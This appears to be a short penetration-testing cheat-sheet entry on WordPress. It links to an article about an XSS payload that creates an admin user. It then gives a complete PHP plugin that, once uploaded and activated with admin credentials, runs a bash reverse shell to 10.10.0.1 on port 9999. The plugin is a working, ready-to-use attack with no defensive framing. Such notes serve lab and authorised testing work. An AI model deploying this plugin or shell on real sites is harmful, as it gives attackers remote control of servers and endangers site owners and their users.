 # Wordpress

Some useful XSS for Wordpress content:\
[https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/](https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/)

If you have admin credentials to the wordpress CMS you can craft a plugin containing the reverse shell one liner. Set up the listener and 'Activate plugin' in Wordpress to initiate the reverse shell.

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Kimi
* Author URI: http://www.nowhere.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.0.1/9999 0>&1'");
?>
```
